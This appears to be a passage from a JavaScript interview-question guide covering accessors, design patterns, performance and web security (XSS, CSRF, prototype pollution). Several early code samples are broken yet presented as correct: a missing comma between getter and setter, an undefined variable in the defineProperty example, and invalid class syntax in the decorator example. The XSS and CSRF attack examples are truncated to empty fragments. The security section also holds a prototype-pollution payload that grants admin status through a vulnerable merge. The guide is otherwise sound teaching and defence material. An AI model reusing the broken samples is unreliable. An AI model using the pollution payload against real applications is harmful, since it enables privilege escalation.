    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are javascript accessors?

ECMAScript 5 introduced javascript object accessors or computed properties through getters and setters. Getters uses `get` keyword whereas Setters uses `set` keyword.

```js
var user = {
  firstName: "John",
  lastName : "Abraham",
  language : "en",
  get lang() {
    return this.language;
  }
  set lang(lang) {
  this.language = lang;
  }
};

console.log(user.lang); // getter access lang as en
user.lang = 'fr';
console.log(user.lang); // setter used to set lang as fr
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you define property on Object constructor?

The Object.defineProperty() static method is used to define a new property directly on an object, or modifies an existing property on an object, and returns the object. 

```js
const newObject = {};

Object.defineProperty(newObject, 'newProperty', {
  value: 100,
  writable: false
});

console.log(newObject.newProperty); // 100

newObject.newProperty = 200; // It throws an error in strict mode due to writable setting
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between get and defineProperty?

Both has similar results until unless you use classes. If you use `get` the property will be defined on the prototype of the object whereas using `Object.defineProperty()` the property will be defined on the instance it is applied to.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the advantages of Getters and Setters?

Below are the list of benefits of Getters and Setters,

* They provide simpler syntax
* They are used for defining computed properties, or accessors in JS.
* Useful to provide equivalence relation between properties and methods
* They can provide better data quality
* Useful for doing things behind the scenes with the encapsulated logic.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Can I add getters and setters using defineProperty method?

Yes, You can use `Object.defineProperty()` method to add Getters and Setters. For example, the below counter object uses increment, decrement, add and substract properties,

```js
var counterObj = {counter : 0};

// Define getters
Object.defineProperty(obj, "increment", {
  get : function () {this.counter++;}
});
Object.defineProperty(obj, "decrement", {
  get : function () {this.counter--;}
});

// Define setters
Object.defineProperty(obj, "add", {
  set : function (value) {this.counter += value;}
});
Object.defineProperty(obj, "subtract", {
  set : function (value) {this.counter -= value;}
});

obj.add = 10;
obj.subtract = 5;
console.log(obj.increment); //6
console.log(obj.decrement); //5
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a decorator?

A decorator is an expression that evaluates to a function and that takes the target, name, and decorator descriptor as arguments. Also, it optionally returns a decorator descriptor to install on the target object. 

Let us define admin decorator for user class at design time,

```js
function admin(isAdmin) {
  return function(target) {
      target.isAdmin = isAdmin;
  }
}

@admin(true)
class User() {
}
console.log(User.isAdmin); // true

@admin(false)
class User() {
}
console.log(User.isAdmin); // false
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are private class fields in JavaScript?

Private class fields (ES2022) use the `#` prefix to declare fields that are only accessible from inside the class body. They are a true hard private — not accessible via `obj['#field']` or any workaround.

**Syntax:**

```js
class ClassName {
  #privateField = defaultValue;
  #privateMethod() { ... }
}
```

**Example:**

```js
class BankAccount {
  #balance;
  #owner;

  constructor(owner, initialBalance) {
    this.#owner = owner;
    this.#balance = initialBalance;
  }

  deposit(amount) {
    if (amount > 0) this.#balance += amount;
  }

  withdraw(amount) {
    if (amount <= this.#balance) this.#balance -= amount;
    else throw new Error('Insufficient funds');
  }

  get info() {
    return `${this.#owner}: \$${this.#balance}`;
  }
}

const acc = new BankAccount('Alice', 1000);
acc.deposit(500);
console.log(acc.info); // 'Alice: $1500'

// Private fields are inaccessible outside the class:
console.log(acc.#balance); // SyntaxError
```

**Private static fields and methods** are also supported:

```js
class Counter {
  static #count = 0;

  constructor() {
    Counter.#count++;
  }

  static getCount() {
    return Counter.#count;
  }
}

new Counter();
new Counter();
console.log(Counter.getCount()); // 2
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## ## L4: Expert (Senior / Architect)

<br>

## # 26. Performance Optimization

<br>

## Q. What is memoization and how do you implement it correctly for production use?

**Memoization** is a caching technique that stores the return value of a pure function keyed by its arguments. On subsequent calls with the same arguments, the cached result is returned without re-executing the function. It is the programmatic application of the mathematical concept that pure functions are referentially transparent (same input → same output).

**Production concerns beyond the naïve implementation:**
1. **Cache key strategy** — `JSON.stringify` fails for non-serialisable args (functions, circular refs, Symbols, `undefined`). A WeakMap keyed on object identity avoids this.
2. **Cache eviction** — unbounded caches grow without limit. LRU (Least Recently Used) eviction is standard.
3. **Async memoization** — memoize the Promise itself, not the resolved value, to prevent duplicate in-flight requests.
4. **TTL (Time To Live)** — stale cached values must expire for data that changes over time.

```js
// ── Basic memoize (serialisable args only) ────────────────────────────────────
function memoize(fn) {
  const cache = new Map();
  return function (...args) {
    const key = JSON.stringify(args);
    if (cache.has(key)) return cache.get(key);
    const result = fn.apply(this, args);
    cache.set(key, result);
    return result;
  };
}

const fib = memoize(function (n) {
  if (n <= 1) return n;
  return fib(n - 1) + fib(n - 2);
});

console.log(fib(40)); // computed once; subsequent calls O(1)

// ── LRU cache memoization ─────────────────────────────────────────────────────
function memoizeLRU(fn, maxSize = 100) {
  const cache = new Map(); // Map preserves insertion order

  return function (...args) {
    const key = JSON.stringify(args);

    if (cache.has(key)) {
      // Move to end (most recently used)
      const value = cache.get(key);
      cache.delete(key);
      cache.set(key, value);
      return value;
    }

    const result = fn.apply(this, args);

    if (cache.size >= maxSize) {
      // Evict least recently used (first inserted key)
      cache.delete(cache.keys().next().value);
    }

    cache.set(key, result);
    return result;
  };
}

// ── Async memoization — memoize the Promise, not the value ───────────────────
function memoizeAsync(fn, ttlMs = 60_000) {
  const cache = new Map();

  return async function (...args) {
    const key = JSON.stringify(args);
    const cached = cache.get(key);

    if (cached && Date.now() < cached.expiresAt) {
      return cached.promise; // return same Promise for concurrent calls
    }

    const promise = fn.apply(this, args).catch(err => {
      cache.delete(key); // evict on failure so next call retries
      return Promise.reject(err);
    });

    cache.set(key, { promise, expiresAt: Date.now() + ttlMs });
    return promise;
  };
}

const fetchUser = memoizeAsync(async (id) => {
  const res = await fetch(`/api/users/${id}`);
  return res.json();
}, 30_000); // cached for 30 seconds

// Concurrent calls with same id — only ONE network request fires
const [u1, u2] = await Promise.all([fetchUser(42), fetchUser(42)]);
```

**Real-World Use Case:**

React\'s `useMemo` and `useCallback` are single-entry memoization (cache size = 1, keyed by the dependency array). For expensive selector computations in Redux stores, `reselect`\'s `createSelector` uses memoization with structural equality checks — preventing re-computation of derived state (e.g., filtering 10,000 product records) on every render when the input state has not changed. At scale (Shopify Admin, GitHub\'s repo page), this reduces CPU time from O(n) on every render to O(1) on cache hits.

---

## Q. What is the difference between debouncing and throttling, and when should you apply each?

Both techniques limit how frequently a function executes in response to rapidly-firing events, but they differ in their guarantee:

| | **Debounce** | **Throttle** |
|---|---|---|
| Guarantee | Executes once **after** a quiet period | Executes **at most once** per interval |
| Fires when | Event **stops** firing for `delay` ms | **First** call, then once per `delay` ms |
| Best for | Search-as-you-type, resize-end handler | Scroll position, mouse-move, rate-limiting API calls |
| Mental model | "Wait until they stop" | "Execute at a steady pace" |

```js
// ── Debounce ──────────────────────────────────────────────────────────────────
function debounce(fn, delay) {
  let timerId;

  return function (...args) {
    clearTimeout(timerId);
    timerId = setTimeout(() => {
      fn.apply(this, args);
    }, delay);
  };
}

// ── Debounce with leading edge (fire immediately, then silence) ───────────────
function debounceLeading(fn, delay) {
  let timerId;
  let leading = true;

  return function (...args) {
    if (leading) {
      fn.apply(this, args);
      leading = false;
    }
    clearTimeout(timerId);
    timerId = setTimeout(() => {
      leading = true;
    }, delay);
  };
}

// ── Throttle ──────────────────────────────────────────────────────────────────
function throttle(fn, interval) {
  let lastCall = 0;

  return function (...args) {
    const now = Date.now();
    if (now - lastCall >= interval) {
      lastCall = now;
      return fn.apply(this, args);
    }
  };
}

// ── Throttle with rAF (frame-rate-limited — best for visual updates) ──────────
function throttleRAF(fn) {
  let rafId = null;

  return function (...args) {
    if (rafId) return; // skip if already queued
    rafId = requestAnimationFrame(() => {
      fn.apply(this, args);
      rafId = null;
    });
  };
}

// ── Usage examples ────────────────────────────────────────────────────────────

// Search input: fire only after user pauses typing for 300ms
const searchInput = document.querySelector('#search');
const handleSearch = debounce(async (query) => {
  const results = await fetch(`/api/search?q=${encodeURIComponent(query)}`).then(r => r.json());
  renderResults(results);
}, 300);
searchInput.addEventListener('input', e => handleSearch(e.target.value));

// Scroll handler: update progress bar at most every 16ms (~60fps)
const updateProgress = throttleRAF(() => {
  const scrollPct = (window.scrollY / document.body.scrollHeight) * 100;
  document.querySelector('#progress').style.width = `${scrollPct}%`;
});
window.addEventListener('scroll', updateProgress, { passive: true });

// API rate limit: max one analytics event per 2 seconds
const trackEvent = throttle((eventName, data) => {
  navigator.sendBeacon('/analytics', JSON.stringify({ eventName, data }));
}, 2_000);
```

**Real-World Use Case:**

Google Docs debounces its autosave — it waits 1–2 seconds after the last keystroke before persisting to the server, balancing data safety against API call frequency. GitHub\'s code search uses debounce on the search field to avoid firing API requests on every character. Twitter\'s (now X) infinite scroll uses throttle on the `scroll` event to check whether new tweets should be loaded, executing the check at most once per 200ms. Without these optimisations, a fast typist or a smooth-scrolling device would generate hundreds of redundant API calls or DOM operations per second.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the common causes of JavaScript memory leaks, and how do you detect and fix them?

A memory leak occurs when objects are allocated but never released because the garbage collector cannot determine they are unreachable — typically because an unintended reference holds them alive. The V8 GC uses a **mark-and-sweep** algorithm: it marks all objects reachable from GC roots (global, stack, closures) and sweeps everything else. A leak means an object is always reachable even when the application has logically finished with it.

**The six most common leak patterns:**

| Pattern | Mechanism | Fix |
|---|---|---|
| Forgotten event listeners | Listener closure holds entire component tree | `removeEventListener` on cleanup |
| Detached DOM nodes | JS holds ref to removed DOM node | Null the reference; use WeakRef/WeakMap |
| Closures capturing large scope | Closure holds reference to outer large object | Destructure only needed values |
| Global variables / growing caches | Unbounded `Map`/array on `window` | LRU eviction; use `WeakMap` |
| `setInterval` not cleared | Callback runs forever after component unmount | `clearInterval` on cleanup |
| Promises never settling | Pending Promises hold closures alive | Add timeouts; cancel with `AbortController` |

```js
// ── Pattern 1: Forgotten event listener ───────────────────────────────────────
class VideoPlayer {
  constructor(videoEl) {
    this.video = videoEl;
    this.handleProgress = this.#onProgress.bind(this);
    this.video.addEventListener('timeupdate', this.handleProgress);
  }

  #onProgress() { /* update UI */ }

  destroy() {
    this.video.removeEventListener('timeupdate', this.handleProgress); // ✅ cleanup
    this.video = null;
  }
}

// ── Pattern 2: Detached DOM nodes ─────────────────────────────────────────────
// ❌ Leak: removed from DOM but still referenced
const cache = new Map();
function addToCache(el) {
  cache.set(el.id, el); // holds el alive even after el is removed from DOM
}

// ✅ Fix: use WeakMap — GC can collect el when DOM reference drops
const weakCache = new WeakMap();
function addToWeakCache(el) {
  weakCache.set(el, { processedAt: Date.now() });
}

// ── Pattern 3: Growing closure scope ──────────────────────────────────────────
// ❌ Leak: entire apiResponse (potentially MB) kept alive by small closure
function processResponse(apiResponse) {
  const { users } = apiResponse; // apiResponse still referenced by the closure below
  return function getFirstUser() { return apiResponse.users[0]; }; // closes over apiResponse
}

// ✅ Fix: close over only what you need
function processResponseFixed(apiResponse) {
  const firstUser = apiResponse.users[0]; // extract immediately
  apiResponse = null;                      // hint to GC (not strictly necessary but expressive)
  return function getFirstUser() { return firstUser; };
}

// ── Pattern 4: setInterval leak ───────────────────────────────────────────────
// React useEffect with cleanup
useEffect(() => {
  const id = setInterval(() => fetchMetrics().then(setMetrics), 5_000);
  return () => clearInterval(id); // ✅ cleared on unmount
}, []);

// ── Pattern 5: AbortController for pending fetches ───────────────────────────
useEffect(() => {
  const controller = new AbortController();

  fetch('/api/data', { signal: controller.signal })
    .then(r => r.json())
    .then(setData)
    .catch(err => { if (err.name !== 'AbortError') console.error(err); });

  return () => controller.abort(); // ✅ cancels in-flight request on unmount
}, []);
```

**Detection with Chrome DevTools:**
1. **Memory** tab → take Heap Snapshot before and after a user action → filter by "Objects allocated between snapshots".
2. **Performance** tab → record a session → look for steadily growing JS Heap in the memory track.
3. `node --expose-gc` in Node.js + `global.gc()` + `process.memoryUsage()` for automated leak detection in CI.

**Real-World Use Case:**

A production trading dashboard (live price updates via WebSocket) was leaking ~5 MB/minute because chart components registered `message` event listeners on the WebSocket instance but the cleanup function never deregistered them. After navigating away and back (SPA route change), each visit added another listener. After 20 minutes, the page consumed 100 MB extra and began janking at 15 fps. Adding `ws.removeEventListener('message', handler)` in the React `useEffect` cleanup eliminated the leak entirely — a pattern enforced by the team\'s custom ESLint rule that requires every `addEventListener` to be paired with a `removeEventListener`.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 27. Design Patterns

<br>

## Q. Implement the Singleton pattern in JavaScript — when is it appropriate and when is it an anti-pattern?

The **Singleton** pattern ensures a class has **only one instance** and provides a global access point to it. In JavaScript it is commonly implemented via module-level variables (ES modules are singletons by default) or static class fields.

**When appropriate:** database connection pools, configuration registries, application-wide event buses, loggers, feature flag services — resources that are expensive to initialise or must be shared state.

**When it is an anti-pattern:** when the singleton makes code hard to test (tight coupling), when it hides dependencies (dependency injection is preferable), or when it holds mutable global state that causes subtle bugs in concurrent/multi-tenant environments.

```js
// ── ES Module Singleton (simplest — modules are cached after first import) ────
// config.js
const _config = Object.freeze({
  apiUrl: process.env.API_URL ?? 'http://localhost:3000',
  timeout: 5_000,
});
export default _config; // every importer gets the same frozen object

// ── Class-based Singleton with lazy initialisation ────────────────────────────
class DatabasePool {
  static #instance = null;
  #connections     = [];
  #maxSize;

  constructor(maxSize = 10) {
    if (DatabasePool.#instance) {
      throw new Error('Use DatabasePool.getInstance() — do not call new directly');
    }
    this.#maxSize = maxSize;
    this.#connections = Array.from({ length: maxSize }, (_, i) => ({
      id: i, inUse: false
    }));
  }

  static getInstance(maxSize) {
    DatabasePool.#instance ??= new DatabasePool(maxSize);
    return DatabasePool.#instance;
  }

  acquire() {
    const conn = this.#connections.find(c => !c.inUse);
    if (!conn) throw new Error('No available connections');
    conn.inUse = true;
    return conn;
  }

  release(conn) {
    conn.inUse = false;
  }

  // Reset for testing only — never call in production
  static _resetForTesting() {
    DatabasePool.#instance = null;
  }
}

const pool1 = DatabasePool.getInstance(5);
const pool2 = DatabasePool.getInstance();
console.log(pool1 === pool2); // true — same instance

// ── Testing challenge & mitigation via DI ─────────────────────────────────────
// Instead of: class OrderService { constructor() { this.db = DatabasePool.getInstance(); } }
// Prefer:
class OrderService {
  constructor(dbPool = DatabasePool.getInstance()) { // injectable default
    this.db = dbPool;
  }
  async createOrder(data) {
    const conn = this.db.acquire();
    try { /* use conn */ }
    finally { this.db.release(conn); }
  }
}

// In tests: const svc = new OrderService(mockPool); — no singleton dependency
```

**Real-World Use Case:**

Node.js\'s `require()` caches modules — every `require('./db')` returns the same module export, making the export a de-facto singleton. Mongoose uses this: the default `mongoose` instance is a module-level singleton that holds the active connection. When multiple files `require('mongoose')`, they all share one connection pool — intentional singleton behaviour. In contrast, NestJS encourages explicit dependency injection over singletons, making services testable with mock providers injected by the IoC container.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Implement the Factory and Abstract Factory patterns — how do they enable Open/Closed architecture?

The **Factory pattern** delegates object creation to a function or method, decoupling the caller from concrete implementations. The caller specifies *what* it wants; the factory decides *how* to create it. This satisfies the **Open/Closed Principle** (open for extension, closed for modification) — adding a new product type requires only registering a new creator, not modifying existing code.

The **Abstract Factory** groups related factories behind a common interface, enabling entire product families to be swapped (e.g., switching from REST to GraphQL data sources without touching business logic).

```js
// ── Factory pattern — notification service ────────────────────────────────────

class EmailNotifier {
  send(to, message) { console.log(`EMAIL → ${to}: ${message}`); }
}

class SMSNotifier {
  send(to, message) { console.log(`SMS → ${to}: ${message}`); }
}

class PushNotifier {
  send(to, message) { console.log(`PUSH → ${to}: ${message}`); }
}

// Factory with registry — Open/Closed: add new type by registering, never modify this fn
class NotifierFactory {
  static #registry = new Map([
    ['email', EmailNotifier],
    ['sms',   SMSNotifier],
    ['push',  PushNotifier],
  ]);

  static register(type, NotifierClass) {
    NotifierFactory.#registry.set(type, NotifierClass);
  }

  static create(type) {
    const Notifier = NotifierFactory.#registry.get(type);
    if (!Notifier) throw new Error(`Unknown notifier type: "${type}"`);
    return new Notifier();
  }
}

// Adding a new type without modifying existing code ✅
class SlackNotifier {
  send(to, message) { console.log(`SLACK → ${to}: ${message}`); }
}
NotifierFactory.register('slack', SlackNotifier);

const notifier = NotifierFactory.create('slack');
notifier.send('#alerts', 'Deploy succeeded');

// ── Abstract Factory — cross-platform UI components ───────────────────────────
// Abstract factory interface (conceptual — no formal interfaces in JS)
class UIComponentFactory {
  createButton()  { throw new Error('Not implemented'); }
  createDialog()  { throw new Error('Not implemented'); }
}

class WebUIFactory extends UIComponentFactory {
  createButton()  { return { render: () => '<button class="web-btn" />' }; }
  createDialog()  { return { render: () => '<dialog class="web-modal" />' }; }
}

class MobileUIFactory extends UIComponentFactory {
  createButton()  { return { render: () => '<TouchableOpacity />' }; }
  createDialog()  { return { render: () => '<Modal />' }; }
}

// Client code — works with any factory, never knows concrete classes
function renderPage(factory) {
  const btn    = factory.createButton();
  const dialog = factory.createDialog();
  return `${btn.render()} ${dialog.render()}`;
}

const platform = navigator?.userAgent.includes('Mobile') ? 'mobile' : 'web';
const factory  = platform === 'mobile' ? new MobileUIFactory() : new WebUIFactory();
console.log(renderPage(factory));
```

**Real-World Use Case:**

AWS SDK v3 uses the Factory pattern for client instantiation: `new S3Client({ region })`, `new DynamoDBClient({ region })`. Each client factory encapsulates endpoint resolution, credential loading, and retry configuration. The Abstract Factory pattern is used by testing libraries — Jest\'s `jest.mock()` mechanism replaces the real module factory with a mock factory, allowing entire subsystems (database layer, HTTP layer) to be substituted without any changes to application code, enabling true unit isolation.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Implement the Publish-Subscribe (Pub-Sub) pattern and contrast it with the Observer pattern.

Both patterns decouple producers from consumers, but differ in coupling degree:

| | **Observer** | **Pub-Sub** |
|---|---|---|
| Coupling | Subject knows its observers | Publishers and subscribers are completely decoupled via an event bus |
| Broker | None — subject calls observers directly | Event bus / message broker in between |
| Communication | Synchronous (typically) | Can be sync or async |
| Examples | DOM EventTarget, Node.js EventEmitter | Redux store, React Context, message queues |

```js
// ── Pub-Sub EventBus ──────────────────────────────────────────────────────────
class EventBus {
  #listeners = new Map(); // topic → Set<{ handler, once }>

  subscribe(topic, handler, { once = false } = {}) {
    if (!this.#listeners.has(topic)) {
      this.#listeners.set(topic, new Set());
    }
    const entry = { handler, once };
    this.#listeners.get(topic).add(entry);

    // Return unsubscribe function
    return () => this.#listeners.get(topic)?.delete(entry);
  }

  once(topic, handler) {
    return this.subscribe(topic, handler, { once: true });
  }

  publish(topic, payload) {
    const entries = this.#listeners.get(topic);
    if (!entries) return;

    for (const entry of [...entries]) { // copy to avoid mutation during iteration
      entry.handler(payload);
      if (entry.once) entries.delete(entry);
    }
  }

  unsubscribeAll(topic) {
    this.#listeners.delete(topic);
  }
}

// ── Usage: cross-module communication without direct imports ──────────────────
const bus = new EventBus();

// Module A: Order Service (publisher)
function placeOrder(order) {
  // ... save to DB
  bus.publish('order:placed', { orderId: order.id, total: order.total });
}

// Module B: Email Service (subscriber — knows nothing about OrderService)
const unsubEmail = bus.subscribe('order:placed', ({ orderId, total }) => {
  console.log(`Send confirmation email for order ${orderId} ($${total})`);
});

// Module C: Analytics Service (another independent subscriber)
bus.subscribe('order:placed', ({ orderId }) => {
  console.log(`Track order ${orderId} in analytics`);
});

placeOrder({ id: 'ORD-001', total: 99.99 });
// Both subscribers fire independently

unsubEmail(); // Module B unsubscribes cleanly

// ── Typed async Pub-Sub with TypeScript-style contracts (runtime) ─────────────
class TypedEventBus extends EventBus {
  static #schemas = new Map();

  static defineEvent(topic, validator) {
    TypedEventBus.#schemas.set(topic, validator);
  }

  publish(topic, payload) {
    const validate = TypedEventBus.#schemas.get(topic);
    if (validate && !validate(payload)) {
      throw new TypeError(`Invalid payload for topic "${topic}"`);
    }
    super.publish(topic, payload);
  }
}

TypedEventBus.defineEvent('order:placed', p =>
  typeof p.orderId === 'string' && typeof p.total === 'number'
);
```

**Real-World Use Case:**

Redux is an application-level Pub-Sub: `dispatch(action)` publishes to the store (broker), and `store.subscribe()` (or `useSelector` via React-Redux) receives notifications. The component tree never directly communicates with the action creators — everything flows through the bus. In microservices, AWS SNS/SQS implements distributed Pub-Sub: an `OrderService` publishes to an SNS topic, and `EmailService`, `InventoryService`, and `AnalyticsService` each subscribe via separate SQS queues — fully decoupled, independently scalable, and able to add new consumers without modifying the publisher.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 28. Security

<br>

## Q. What is Cross-Site Scripting (XSS), how does it work, and how do you prevent it in a JavaScript application?

**XSS** is an injection attack where an adversary causes a victim\'s browser to execute malicious JavaScript in the context of a trusted origin. Because the script runs with the victim\'s session cookies, tokens, and DOM access, the attacker can steal credentials, hijack sessions, deface pages, or exfiltrate sensitive data.

**Three types:**

| Type | Mechanism |
|---|---|
| **Stored (Persistent)** | Malicious script stored in the database and served to all users |
| **Reflected** | Script embedded in a URL parameter, reflected in the response |
| **DOM-based** | Vulnerable client-side code reads attacker-controlled source (URL hash, `postMessage`) and writes to a dangerous sink (`innerHTML`, `eval`) |

**Prevention layers:**

1. **Output encoding** — encode user-supplied data before inserting into HTML, JS, CSS, or URL contexts.
2. **Content Security Policy (CSP)** — HTTP header that restricts script sources; blocks inline scripts and `eval`.
3. **Avoid dangerous sinks** — never use `innerHTML`, `outerHTML`, `document.write`, `eval`, `setTimeout(string)` with user data.
4. **Sanitise HTML** — use a trusted library (DOMPurify) when rich HTML input is required.
5. **HttpOnly cookies** — prevents JavaScript from accessing session cookies even if XSS succeeds.
6. **Trusted Types API** — browser-enforced type system that requires explicit sanitisation before assignment to dangerous sinks.

```js
// ── DOM-based XSS vulnerability and fix ───────────────────────────────────────

// ❌ VULNERABLE: unsanitised user input written to innerHTML
const name = new URLSearchParams(location.search).get('name');
document.querySelector('#greeting').innerHTML = `Hello, ${name}!`;
// Attack URL: /page?name=

// ✅ SAFE: use textContent for plain text (never executes as HTML)
document.querySelector('#greeting').textContent = `Hello, ${name}!`;

// ✅ SAFE: use DOMPurify when you need to allow some HTML (e.g., rich text editor)
import DOMPurify from 'dompurify';
document.querySelector('#content').innerHTML = DOMPurify.sanitize(userHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
  ALLOWED_ATTR: ['href'],
});

// ✅ SAFE: Trusted Types API (Chrome 83+) — enforced sanitisation at sink level
if (window.trustedTypes?.createPolicy) {
  const policy = trustedTypes.createPolicy('default', {
    createHTML: (input) => DOMPurify.sanitize(input),
    createScriptURL: (url) => {
      if (new URL(url).origin === location.origin) return url;
      throw new Error('External script URLs not allowed');
    },
  });

  element.innerHTML = policy.createHTML(userInput); // ✅ goes through sanitiser
}

// ── React\'s built-in XSS protection ──────────────────────────────────────────
// React\'s JSX escapes all values before rendering — textContent equivalent
function UserGreeting({ name }) {
  return <h1>Hello, {name}!</h1>; // ✅ safe — JSX escapes {name}
}

// ❌ DANGEROUS: dangerouslySetInnerHTML bypasses React\'s protection
function RichContent({ html }) {
  return <div dangerouslySetInnerHTML={{ __html: html }} />; // ONLY safe with DOMPurify
}

// ✅ CORRECT usage
function SafeRichContent({ html }) {
  return (
    <div
      dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(html) }}
    />
  );
}
```

**Content Security Policy example (most impactful single mitigation):**

```
Content-Security-Policy:
  default-src 'self';
  script-src  'self' https://cdn.trusted.com;
  style-src   'self' 'unsafe-inline';
  img-src     'self' data: https:;
  object-src  'none';
  base-uri    'self';
  frame-ancestors 'none';
```

**Real-World Use Case:**

GitHub\'s XSS history is instructive: despite extensive escaping, a DOM-based XSS was discovered in 2013 via a Markdown renderer that allowed crafted image URLs to execute scripts. GitHub\'s response was to tighten their CSP to disallow inline scripts entirely and implement strict `script-src` restrictions. Today, GitHub uses a nonce-based CSP on every page load, combined with Trusted Types, meaning even if a future XSS injection vector is discovered, the browser will refuse to execute injected scripts because they lack the server-generated nonce.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is CSRF, how does it differ from XSS, and how do you prevent it?

**CSRF (Cross-Site Request Forgery)** tricks a victim\'s browser into sending an authenticated request to a target site without the victim\'s knowledge. Unlike XSS (which executes code *on* the target site), CSRF abuses the browser\'s automatic cookie-sending behaviour — the browser attaches cookies to every request to the matching domain, regardless of which page initiated the request.

**Attack flow:**
1. Victim is logged into `bank.example.com` (session cookie set).
2. Victim visits `evil.com`, which contains ``.
3. Browser sends a GET request to `bank.example.com` with the victim\'s session cookie — the bank processes the transfer.

**Prevention strategies:**

| Technique | How it works | Notes |
|---|---|---|
| **CSRF Token** | Server issues a random per-session token; client includes it in every state-changing request; server validates | Classic; works for form-based apps |
| **SameSite Cookie** | `SameSite=Strict/Lax` — browser does not send cookie on cross-site requests | Best modern defence; `Lax` is now the default in Chrome |
| **Double Submit Cookie** | Token in cookie + request body/header; server checks they match | Stateless alternative to server-side token storage |
| **Custom Request Header** | API requires `X-Requested-With: XMLHttpRequest`; CORS blocks cross-origin custom headers | Effective for AJAX APIs |
| **Origin / Referer validation** | Server checks `Origin` header matches its own domain | Defence-in-depth |

```js
// ── CSRF token pattern (server renders token into page) ──────────────────────

// Server (Express): generate and store token in session
app.use((req, res, next) => {
  if (!req.session.csrfToken) {
    req.session.csrfToken = crypto.randomBytes(32).toString('hex');
  }
  res.locals.csrfToken = req.session.csrfToken;
  next();
});

// Server: validate token on state-changing requests
function csrfProtect(req, res, next) {
  const token = req.headers['x-csrf-token'] ?? req.body?._csrf;
  if (!token || token !== req.session.csrfToken) {
    return res.status(403).json({ error: 'Invalid CSRF token' });
  }
  next();
}

app.post('/api/transfer', csrfProtect, transferHandler);

// Client: include CSRF token in AJAX requests
const csrfToken = document.querySelector('meta[name="csrf-token"]')?.content;

async function transfer(to, amount) {
  const res = await fetch('/api/transfer', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'X-CSRF-Token': csrfToken, // custom header — blocked by CORS for cross-origin requests
    },
    credentials: 'include', // send cookies
    body: JSON.stringify({ to, amount }),
  });
  return res.json();
}

// ── SameSite cookie — server sets header ─────────────────────────────────────
// Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict; Path=/
// With SameSite=Strict, cookie is NEVER sent on cross-site requests
// With SameSite=Lax (default), cookie is only sent on top-level navigations (GET)

// ── JWT in Authorization header (CSRF-immune by design) ──────────────────────
// If auth is via Authorization: Bearer <token> header (not cookie),
// CSRF is impossible — cross-origin forms/images cannot set custom headers
async function apiCall(endpoint, data) {
  const token = getAccessToken(); // from memory, not cookie
  return fetch(endpoint, {
    method: 'POST',
    headers: {
      'Authorization': `Bearer ${token}`,
      'Content-Type': 'application/json',
    },
    body: JSON.stringify(data),
  });
}
```

**Real-World Use Case:**

The Django framework generates a CSRF token per session and requires it (via `csrf_token` template tag) in every `POST`, `PUT`, `PATCH`, `DELETE` form. It also sets the `csrftoken` cookie with `SameSite=Lax` by default. Rails does the same with `protect_from_forgery`. Modern SPAs that use `Authorization: Bearer` headers for API calls are inherently CSRF-immune for those calls — which is one reason the JWT-in-memory + Authorization-header pattern is preferred over session cookies for SPA authentication in high-security applications.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is prototype pollution, how is it exploited, and how do you defend against it?

**Prototype pollution** is a JavaScript-specific vulnerability where an attacker injects properties into `Object.prototype` — the root prototype shared by all plain objects. Since every object inherits from `Object.prototype`, polluting it affects every object in the application, enabling unexpected behaviour, privilege escalation, and in some cases Remote Code Execution (RCE).

**Attack vector:** Functions that recursively merge or clone objects (common in utility libraries like `lodash.merge`, `$.extend`, `JSON.parse` + assign) may process attacker-controlled keys like `__proto__`, `constructor`, or `prototype`.

```js
// ── Classic attack via deep merge ─────────────────────────────────────────────
function deepMerge(target, source) {
  for (const key of Object.keys(source)) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] ??= {};
      deepMerge(target[key], source[key]); // ❌ no key sanitisation
    } else {
      target[key] = source[key];
    }
  }
  return target;
}

// Attacker-controlled JSON (e.g., from a user API request body)
const maliciousPayload = JSON.parse('{"__proto__": {"isAdmin": true}}');
deepMerge({}, maliciousPayload);

// Now ALL plain objects have isAdmin = true
const user = {};
console.log(user.isAdmin); // true — POLLUTION ⚠️

// Application code that trusted this:
if (user.isAdmin) grantAdminAccess(); // bypassed!

// ── Defences ──────────────────────────────────────────────────────────────────

// 1. Key sanitisation in merge functions
function safeMerge(target, source) {
  for (const key of Object.keys(source)) {
    // Block dangerous keys
    if (key === '__proto__' || key === 'constructor' || key === 'prototype') {
      continue; // ✅ skip
    }
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] ??= {};
      safeMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}

// 2. Use Object.create(null) for data dictionaries (no prototype chain)
const safeMap = Object.create(null);
safeMap['__proto__'] = 'harmless'; // just a regular property — no prototype effect
console.log(({}).polluted); // undefined ✅ — Object.prototype not affected

// 3. Use Map instead of plain objects for dynamic key storage
const config = new Map();
config.set('__proto__', 'value'); // stored as a Map entry, not prototype mutation

// 4. Freeze Object.prototype (nuclear option — may break libraries)
Object.freeze(Object.prototype);

// 5. JSON schema validation — reject payloads with dangerous keys before processing
import Ajv from 'ajv';
const ajv = new Ajv();
const schema = {
  type: 'object',
  additionalProperties: { type: 'string' },
  not: {
    anyOf: [
      { required: ['__proto__'] },
